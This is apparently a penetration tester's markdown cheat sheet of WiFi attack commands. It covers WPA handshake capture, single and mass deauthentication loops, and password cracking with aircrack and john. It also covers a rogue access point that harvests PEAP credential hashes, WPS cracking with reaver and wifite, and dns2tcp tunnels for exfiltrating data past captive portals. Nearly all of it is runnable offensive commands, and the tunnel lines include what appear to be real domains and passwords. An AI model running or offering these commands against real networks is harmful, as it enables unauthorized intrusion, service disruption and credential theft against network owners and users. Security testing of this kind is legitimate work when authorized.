 # WIFI

## WPA

Capture Handshake using airodump-ng + local crack using john or hashcat =&gt; cleartext password

### 1. monitor mode

`sudo airmon-ng start wlan0`

### 2. listen for specific bssid

`sudo airodump-ng -a mon0`

> find you target bssid \(mac\) and chanel

`airodump-ng -c 6 --bssid <MAC-BOX-CLIENT> --showack -w capture mon0`

> don't forget the -w paramter to save the handshake !!

### 3. DeAUTH

`aireplay-ng mon0 -0 5 -b <MAC-BOX-CLIENT>`

#### DEAUTH specific client device

`aireplay-ng -0 5 -a <MAC-BOX-CLIENT> -c <MAC-DEVICE-CLIENT> mon0`

#### DEAUTH massif \(each client connected at each bssid of an essid\)

`for bssid in cat bssid_deauth.lst; do for mac in cat client_deauth.lst; do aireplay-ng mon.wlan0 -0 5 -a $bssid -c $mac --ignore-negative-one -e <ESSID_CLIENT> ; done ; done`

### 4. Handshaked captured ? go crack it !!

#### Crack with aircrack

`aircrack-ng capture-01.cap --wordlist=<wordlist>`

#### Crack with john

```text
wpaclean capture.cap-01.clean.cap capture.cap-01.cap
aircrack-ng capture.cap-01.clean.cap -J capture.cap-01.hccap
hccap2john capture.cap-01.hccap > capture.cap-01.hccap.john
john --wordlist=<wordlist> capture.cap-01.hccap.john
```

#### Crack with hashcat

_**todo**_

## PEAP

1. `apt install hostapd-wpe`
2. Configure same channel and essid than the client's one in hostapd conf
3. Disconnect clients devices \(see WPA - 3. DeAUTH\)

### Log PEAP : hash client format john

`cat peap_client_log.txt | grep username -A2 | sed '/^--/d' | awk '{print $2}' | tr -d ':' | awk 'NR%3{printf $0":";next;}1' | awk -F ':' '{print $1"::::"$3":"$2}'`

### Vulnerability fix : GPO validate certificate

## Captive portal

### DNS tunneling to exfiltrate data over the internet

[http://requestbin.net/dns](http://requestbin.net/dns)

## To test \(vrac\)

### PEAP hash replay

* Spoof AP and replay hashed captured
  * Sensepost bearer-ap
  * Sensepost sycophant

### dns2tcp manually

#### création du tunel

dns2tcpc -z dnstun.lexsi.net -c -d 1 -l 9000 -r ssh 192.168.128.27 -k _bijour@lexsi_ dns2tcpc -z dnstun.lexsi.net -c -d 1 -l 9000 -r ssh 192.168.1.29 -k Q5xTEGHgqa8 ssh rsshdummy@127.0.0.1 -p 9000 -D 9010 -N -i rssh\_dummy\_dv\_new

#### mise en place du proxy local

ssh rssh@127.0.0.1 -p 9000 -D 9010 -N -i rssh.ssh

### WPS

```text
airmon-ng check airmon-ng start wlan1 
wifite --showb --wpa --mon-iface wlan0mo 
airodump-ng -a wlan1mon --wps --essid-regex EDL time reaver -i wlan1mon -c 1 -b E8:FC:AF:9A:C9:B0 -K 1 
airodump-ng -a wlan1mon --essid-regex Internet 
wifite --showb --wpa --mon-iface wlan0mon --aircrack --pyrit --tshark --cowpatty --power 40
airmon-ng check airmon-ng start wlan0 
airodump-ng wlan0mon --wps --essid-regex VICTIM reaver -i wlan0mon -c $channel -b $bssid -K 1
```

### unblock wifi card

```text
sudo nmcli nm wifi off
sudo nmcli radio wifi off
sudo rfkill unblock wlan
```


